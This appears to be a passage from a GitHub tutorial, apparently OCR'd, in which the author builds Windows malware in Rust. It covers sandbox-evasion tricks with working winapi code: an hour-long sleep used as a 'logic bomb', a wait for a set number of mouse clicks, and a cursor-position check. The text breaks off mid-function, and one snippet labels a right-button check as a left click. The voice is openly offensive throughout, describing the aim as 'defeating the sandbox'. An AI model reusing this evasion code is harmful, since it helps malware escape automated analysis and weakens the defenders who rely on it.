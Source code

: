         * Logic bomb/sleep: By implementing our malware as a logic bomb, we can stall the execution of the malware and have it sleeps.
            * Typically, a sandbox analyzes a malware in around 10-20 minutes, we can just go to sleep for a couple of hours and wake up after the sandbox's processing time!
            * We also can make our malware execute at a specific date and time in the future, defeating the sandbox by waiting it out!
            * Since this does not need to be too complicated, I just let my malware sleep for an hour before executing anything.

              ``` rust

                use winapi::um::synchapi::Sleep;
                pub fn sleep_for_an_hour() {
                    unsafe { Sleep(3600000) }
                }

              ```

    2. ***Detecting user interaction***
        * Usually, users interact with their computers through mouse clicks and the keyboard, but there is extremly unlikely that there is such human-like interactions in a sandbox.
        * We can make our malware wait for a certain user interactions before executing. The [Trojan.APT.BaneChan](https://www.fireeye.com/blog/threat-research/2013/04/trojan-apt-banechant-in-memory-trojan-that-observes-for-multiple-mouse-clicks.html) sits and waits for a number of mouse clicks before executing its malicious code. I figure we can use this trick!

            ``` rust

            use winapi::um::winuser::{GetAsyncKeyState, VK_RBUTTON};
            pub fn check_mouse_click(min_clicks: u32) {
                let mut count: u32 = 0;

                while count < min_clicks {
                    let key_left_clicked = unsafe { GetAsyncKeyState(VK_RBUTTON) };
                    if key_left_clicked >> 15 == -1 {
                        count += 1;
                    }
                    unsafe { Sleep(100) };
                }
            }

            ```


        * We can also check the position of the mouse. Since a sandbox does not move the mouse cursor around, we can record the original position, wait for 5 seconds, and record it again. If the mouse position matches exactly, it's highly possible that we are in a sandbox

            ``` rust

                use winapi::um::winuser::{GetCursorPos};
                use winapi::shared::windef::POINT;
                pub fn check_cursor_position() -> bool {
                  let mut cursor: POINT = POINT { x: 0i32, y: 0i32 };
                  unsafe {
                      GetCursorPos(&mut cursor);
                      let x = cursor.x;
                      let y = cursor.y;
                      Sleep(5000);
                      GetCursorPos(&mut cursor);
